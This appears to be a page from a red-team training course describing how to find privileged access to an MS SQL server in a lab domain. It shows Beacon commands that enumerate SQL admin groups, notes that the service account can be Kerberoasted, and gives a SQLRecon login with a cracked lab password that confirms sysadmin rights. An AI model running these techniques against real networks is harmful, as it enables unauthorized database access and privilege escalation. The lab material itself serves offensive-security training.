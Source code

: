 \


On default installations, standard users do not have this "public" role by default and must be explicitly granted through [SQL Server Manager Studio](https://learn.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms) (SSMS).  The aforementioned information on a SQL instance cannot be enumerated if the user's security context does not have a valid role.

\


![](https://files.cdn.thinkific.com/file_uploads/584845/images/3ff/4cb/2fa/roles.png)

\


Finding a user (or group) that does have access can be challenging, because without the ability to query the SQL instance to ask it, you can be stuck guessing.  One port of call is to look for appropriately named domain groups and their members.

```
beacon> powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }

GroupName     MemberName
---------     ----------
MS SQL Admins jking
```

Another option is to go after the MS SQL service account itself as this is also often given sysadmin privileges.  This assumption is the basis of BloodHound's SQLAdmin attack path. &#x20;

We know that the domain account being used to run the service is `DEV\mssql_svc` and that the account is kerberoastable owing to its SPN. &#x20;

<mark style="color:$danger;">**If we can crack its plaintext password, we can use it to gain access to the SQL instance.**</mark> &#x20;

**The credentials can be used with `make_token` in Beacon and `/a:WinToken` in SQLRecon; or the `/a:WinDomain` option with `/d:<domain> /u:<username> /p:<password>` in SQLRecon directly.**

```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami

[*] Determining user permissions on sql-2.dev.cyberbotic.io,1433
[*] Logged in as DEV\mssql_svc
[*] Mapped to the user dbo
[*] Roles:
 |-> User is a member of public role.
 |-> User is NOT a member of db_owner role.
 |-> User is NOT a member of db_accessadmin role.
 |-> User is NOT a member of db_securityadmin role.
 |-> User is NOT a member of db_ddladmin role.
 |-> User is NOT a member of db_backupoperator role.
 |-> User is NOT a member of db_datareader role.
 |-> User is NOT a member of db_datawriter role.
 |-> User is NOT a member of db_denydatareader role.
 |-> User is NOT a member of db_denydatawriter role.
 |-> User is a member of sysadmin role.
 |-> User is a member of setupadmin role.
 |-> User is a member of serveradmin role.
 |-> User is a member of securityadmin role.
 |-> User is a member of processadmin role.
 |-> User is a member of diskadmin role.
 |-> User is a member of dbcreator role.
 |-> User is a member of bulkadmin role.
```
